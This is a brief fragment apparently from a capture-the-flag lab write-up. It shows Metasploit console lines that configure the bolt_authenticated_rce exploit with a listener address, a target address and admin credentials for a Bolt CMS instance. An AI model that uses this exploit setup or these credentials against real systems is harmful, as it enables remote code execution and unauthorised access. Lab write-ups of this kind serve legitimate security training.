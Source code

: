 

View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST 10.10.108.106
LHOST => 10.10.108.106
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.205.193
RHOSTS => 10.10.205.193
msf6 exploit(unix/webapp/bolt_authenticated_rce) > 









![image](https://github.com/user-attachments/assets/12659e70-0803-4cd3-b9a5-b4eb1505a062)

